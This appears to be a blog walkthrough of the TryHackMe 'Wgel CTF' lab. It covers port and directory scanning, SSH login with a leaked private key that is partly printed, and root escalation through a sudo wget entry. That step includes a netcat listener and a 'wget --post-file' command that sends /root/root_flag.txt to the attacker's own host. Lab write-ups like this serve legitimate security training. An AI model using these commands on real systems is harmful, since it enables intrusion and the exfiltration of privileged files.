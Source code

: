 ```yaml
---
title: "[TryHackMe] Wgel CTF - Walkthrough"
date: 2021-04-18T08:54:14-04:00
author: ascrivins
description: "How to exfiltrate the user and root flag."
ShowToc: true
ShowBreadCrumbs: true
ShowReadingTime: true
ShowPostNavLinks: true
ShowShareButtons: true
categories: ["TryHackMe"]
tags: ["Walkthrough", "nmap", "dirbuster", "ssh", "Privilege Escalation"]
cover:
   image: "/post_images/wgelCTF/banner.png"
---
```


# Intro
Link to room: https://tryhackme.com/room/wgelctf

--------------------------------------

# User Flag
## nmap Scan
First thing to always do is to run an nmap scan and check out the results.

    > nmap -sC -sV [ip]
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-18 09:13 EDT
    Nmap scan report for [ip]
    Host is up (0.039s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
    |   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
    |_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Apache2 Ubuntu Default Page: It works
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

So we have ports 22 and 80 open. So lets first check out the http server.

--------------------------------------

## Webpage
We have the default Apache2 webpage. 

![Default Apache2 webpage](/post_images/wgelCTF/apache.png)

Checking the source code we can see a potential username:

![Username found](/post_images/wgelCTF/jessie.png)

--------------------------------------

## dirbuster
We can now do a round of dirbuster to see any directories or files that we should look at.
The results show a group of pages that follow /sitemap/...

![dirbuster results](/post_images/wgelCTF/dirbuster.png)

Checking these pages out we see:

![Webpage](/post_images/wgelCTF/sitemap.png)

We should do a second round of dirbuster on this /sitemap/ directory to see if there is anything interesting. 
Dirbuster finds a url: /sitemap/.ssh/id_rsa - this is a key we can use to login through ssh. 

    -----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
    m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
    W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
    y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
    +J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
    ...

--------------------------------------

## ssh Login
We can copy & paste the key found into a file called key.txt.
We then need to set the permissions of the file so that we can use it as a key. We can do this with:

    chmod 500 key.txt

Then supplying the key with the -i parameter and using the username "jessie" that was found in the source code, we can login through ssh:

    > ssh jessie@[ip] -i key.txt
    Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
    
    8 packages can be updated.
    8 updates are security updates.
    
    jessie@CorpOne:~$ 

--------------------------------------

## Finding The Flag
We a bit of traversal through the directories on the machine, we can find the file.

    jessie@CorpOne:~$ ls
    Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  Videos
    jessie@CorpOne:~$ cd Documents/
    jessie@CorpOne:~/Documents$ ls
    user_flag.txt
    jessie@CorpOne:~/Documents$ 

--------------------------------------

# Root Flag
## Sudo Permissions 
After gaining access to a system, the first thing to check in order to privilege escalate is the commands that we have sudo permissions for.
This can be done with: sudo -l.

    jessie@CorpOne:~/Documents$ sudo -l
    Matching Defaults entries for jessie on CorpOne:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User jessie may run the following commands on CorpOne:
        (ALL : ALL) ALL
        (root) NOPASSWD: /usr/bin/wget
    jessie@CorpOne:~/Documents$ 

From the results, we can see that we can run wget with sudo permissions so we should do some research on how to leverage this. 

--------------------------------------

## GTFOBins on wget
GTFOBins is a great site that lists the methods to leverage and perform privilege escalation. This is the listing for wget:
https://gtfobins.github.io/gtfobins/wget/

![gtfobins listing](/post_images/wgelCTF/gtfobins.png)


So we can do a file upload of the root flag file to retrieve its contents.

--------------------------------------

## Performing The Exploit
Firstly, we need to setup a listener for the file we are going to send. We can do this with netcat like so:

    > nc -lvnp 4445
    listening on [any] 4445 ...

We are ready to retrieve the file on port 4445.

Following the instructions from GTFOBins, we can  set up the attack like this:

    jessie@CorpOne:/$ URL=[my-ip]:4445
    jessie@CorpOne:/$ LFILE=/root/root_flag.txt
    jessie@CorpOne:/$ sudo wget --post-file=$LFILE $URL

We get:

    jessie@CorpOne:/$ sudo wget --post-file=$LFILE $URL
    --2021-04-18 16:49:15--  http://[my-ip]:4445/
    Connecting to [my-ip]:4445... connected.
    HTTP request sent, awaiting response... 

On our listening machine we have been sent the flag!

    > nc -lvnp 4445
    listening on [any] 4445 ...
    connect to [my-ip] from (UNKNOWN) [ip] 53770
    POST / HTTP/1.1
    User-Agent: Wget/1.17.1 (linux-gnu)
    Accept: */*
    Accept-Encoding: identity
    Host: [my-ip]:4445
    Connection: Keep-Alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 33
    
    b1b968b...[Redacted] <-Flag.
